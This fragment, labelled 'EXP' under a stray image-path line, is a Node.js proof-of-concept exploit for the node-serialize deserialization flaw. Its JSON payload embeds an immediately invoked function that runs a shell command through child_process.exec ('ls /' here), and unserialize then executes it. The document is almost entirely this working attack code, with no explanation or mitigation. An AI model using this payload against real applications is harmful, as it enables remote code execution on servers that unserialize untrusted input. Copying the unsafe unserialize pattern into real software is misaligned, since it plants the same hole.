 EXP
---

    var serialize = require('node-serialize');
    var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
    serialize.unserialize(payload);